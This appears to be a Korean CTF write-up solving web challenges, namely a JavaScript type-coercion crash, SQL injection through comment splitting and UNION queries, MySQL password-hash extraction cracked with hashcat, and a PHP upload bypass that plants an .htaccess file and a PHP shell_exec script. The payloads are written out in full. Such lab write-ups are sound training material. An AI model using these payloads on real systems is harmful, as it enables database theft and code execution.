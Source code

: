 ```yaml
---
layout: post
comments: false
categories: CTF
---
```


## **Javascript Puzzle**

```python
const express = require('express')

const app = express()
const port = 8000

app.get('/', (req, res) => {
    try {
        const username = req.query.username || 'Guest'
        const output = 'Hello ' + username
        res.send(output)
    }
    catch (error) {
        res.sendFile(__dirname + '/flag.txt')
    }
})

app.listen(port, () => {
    console.log(`Server is running at http://localhost:${port}`)
})
```

'Hello ' + username 연산 전에 username에 대해서 toString을 통한 형변환이 일어난다. 따라서 username.toString을 overwrite해주면 에러가 발생합니다.

```
username[toString]=1
```

## Limited 1

```python
@app.route('/query')
def query():
    try:
        price = float(request.args.get('price') or '0.00')
    except:
        price = 0.0

    price_op = str(request.args.get('price_op') or '>')
    if not re.match(r' ?(=|<|<=|<>|>=|>) ?', price_op):
        return 'price_op must be one of =, <, <=, <>, >=, or > (with an optional space on either side)', 400

    # allow for at most one space on either side
    if len(price_op) > 4:
        return 'price_op too long', 400

    # I'm pretty sure the LIMIT clause cannot be used for an injection
    # with MySQL 9.x
    #
    # This attack works in v5.5 but not later versions
    # https://lightless.me/archives/111.html
    limit = str(request.args.get('limit') or '1')

    query = f"""SELECT /*{FLAG1}*/category, name, price, description FROM Menu WHERE price {price_op} {price} ORDER BY 1 LIMIT {limit}"""
    print('query:', query)

    if ';' in query:
        return 'Sorry, multiple statements are not allowed', 400

    try:
        cur = mysql.connection.cursor()
        cur.execute(query)
        records = cur.fetchall()
        column_names = [desc[0] for desc in cur.description]
        cur.close()
    except Exception as e:
        return str(e), 400

    result = [dict(zip(column_names, row)) for row in records]
    return jsonify(result)

```

sql query를 실행할 때 price_op에 `>/*`, limit 앞부분을 `*/` 로 설정하면 쉽게 sql injection이 가능합니다.

`information_schema.processlist` 를 통해 어떤 쿼리를 실행했는지 확인하여 query 내부의 주석을 볼 수 있습니다.

```
/query?price=11&price_op=>/*&limit=*/100 UNION SELECT 1,2,3,INFO FROM information_schema.processlist
```

## Limited 2

Limited 1과 같은 소스코드의 문제입니다. Flag로 시작하는 table에 있는 값을 보면 되는 문제입니다.

```
/query?price=0&price_op=>/*&limit=*/1 UNION SELECT 1,2,3,table_name FROM information_schema.tables

****/query?price=5&price_op=>/*&limit=*/100 UNION SELECT 1,2,3,column_name FROM information_schema.columns WHERE table_name='Flag_843423739'

****/query?price=0&price_op=>/*&limit=*/1 UNION SELECT 1,2,3,value FROM Flag_843423739
```

## Limited 3

```sql
-- This password is 13 characters and can be found in rockyou.
-- It is the flag for one of the challenges using this source
-- BUT it needs to be wrapped by wctf{} before submitting.
create user 'flag' identified by 'REDACTED_FLAG';
```

해당 문제의 Mysql은 password를 저장할 때 caching_sha2_password을 사용합니다. 비밀번호가 rockyou에 있는 13글자라는 정보를 통해 bruteforce를 진행했습니다.

```sql
UNION SELECT 1,2,3,
  CONCAT('$mysql',
    LEFT(authentication_string, 6),
    '*',
    INSERT(HEX(SUBSTR(authentication_string, 8)), 41, 0, '*')
  ) AS hash
FROM mysql.user
WHERE plugin = 'caching_sha2_password'
  AND authentication_string NOT LIKE '%INVALIDSALTANDPASSWORD%'
  AND user = 'flag'
```

우선 hash 값을 알기 위해서 위의 쿼리를 사용했습니다.

```
$mysql$A$005*766E4F5E5D03106A4C027233476433535C4B5E20*3865726464724C6E39747276424F484B6B63742E37307966474C58742F4466634E58767371592F70325044
```

위의 값을 토대로 hashcat의 7401 옵션을 이용해서(`-m 7401` = MySQL 8+ `caching_sha2_password` 해시) flag를 구할 수 있었습니다.

```
hashcat -m 7401 -a 0 hashes rockyou-13.txt
```

## **Art Contest**

```php
if (isset($_FILES['fileToUpload'])) {
    $target_file = basename($_FILES["fileToUpload"]["name"]);
    $session_id = session_id();
    $target_dir = "/var/www/html/uploads/$session_id/";
    $target_file_path = $target_dir . $target_file;
    $uploadOk = 1;
    $lastDotPosition = strrpos($target_file, '.');

    // Check if file already exists
    if (file_exists($target_file_path)) {
        echo "Sorry, file already exists.\n";
        $uploadOk = 0;
    }
    
    // Check file size
    if ($_FILES["fileToUpload"]["size"] > 50000) {
        echo "Sorry, your file is too large.\n";
        $uploadOk = 0;
    }

    // If the file contains no dot, evaluate just the filename
    if ($lastDotPosition == false) {
        $filename = substr($target_file, 0, $lastDotPosition);
        $extension = '';
    } else {
        $filename = substr($target_file, 0, $lastDotPosition);
        $extension = substr($target_file, $lastDotPosition + 1);
    }

    // Ensure that the extension is a txt file
    if ($extension !== '' && $extension !== 'txt') {
        echo "Sorry, only .txt extensions are allowed.\n";
        $uploadOk = 0;
    }
    
    if (!(preg_match('/^[a-f0-9]{32}$/', $session_id))) {
    	echo "Sorry, that is not a valid session ID.\n";
        $uploadOk = 0;
    }

    // Check if $uploadOk is set to 0 by an error
    if ($uploadOk == 0) {
        echo "Sorry, your file was not uploaded.\n";
    } else {
        // If everything is ok, try to upload the file
        if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file_path)) {
            echo "The file " . htmlspecialchars(basename($_FILES["fileToUpload"]["name"])) . " has been uploaded.";
        } else {
            echo "Sorry, there was an error uploading your file.";
        }
    }

    $old_path = getcwd();
    chdir($target_dir);
    // make unreadable - the proper way
    shell_exec('chmod -- 000 *');
    chdir($old_path);
}
```

php를 통해 만든 파일을 업로드할 수 있는 사이트입니다. `../` 를 삽입할 수 있는 방법이 없을까 고민했었지만 불가능했습니다. 

문제에서는 업로드 이후 `chmod -- 000 *` 명령어를 통해서 업로드한 파일들을 읽을 수 없도록 하는데 `*` 를 사용하게 되면 파일명이 `.` 으로 시작하는 파일들에 대한 처리가 이루어지지 않습니다.

그리고 `if ($lastDotPosition == false)`  조건문을 사용하는 부분이 있는데 dot의 위치가 제일 처음이라면 `$lastDotPosition` 이 0이 되어 `$lastDotPosition == false` 가 true가 됩니다. 

따라서 `.htaccess`  파일을 사용해 txt 파일을 php 파일처럼 사용하게 할 수 있어 flag를 읽어올 수 있습니다.

- .htaccess

```
AddType application/x-httpd-php .txt
```

- .getflag.txt

```php
<?php
header("Content-Type: text/plain");

echo "Path: " . realpath('../../get_flag') . "\n";
echo "Exists: " . (file_exists('../../get_flag') ? 'Yes' : 'No') . "\n";
echo "Output:\n";

$output = shell_exec('cd /var/www/html && ./get_flag 2>&1');

echo $output;
```